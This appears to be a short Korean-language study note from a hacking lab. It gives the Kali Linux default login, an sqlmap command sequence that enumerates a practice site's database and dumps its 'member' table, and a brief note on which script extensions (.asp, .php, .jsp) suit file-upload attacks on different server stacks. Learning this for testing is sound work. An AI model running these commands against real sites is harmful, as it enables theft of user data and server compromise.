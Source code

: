 # 2024.07.17

## kali linux
- id : kali / pw : kali
- 터미널 창 부르고
- sqlmap
- sqlmap -u "http://freehack.bug/~~~~/" --dbs
- sqlmap -u "http://freehack.bug/~~~~/" -D freehack --tables
- sqlmap -u "http://freehack.bug/~~~~/" -D freehack -T member --columns
- sqlmap -u "http://freehack.bug/~~~~/" -D freehack -T member --dump            



## File Upload

서버에 파일이 업로드 되는 기능을 이용하여 사용   
파일 업로드 취약점은

- iis + mysql == .asp
- apache + php + mysql == .php
- apachhe + spring + mysql == .jsp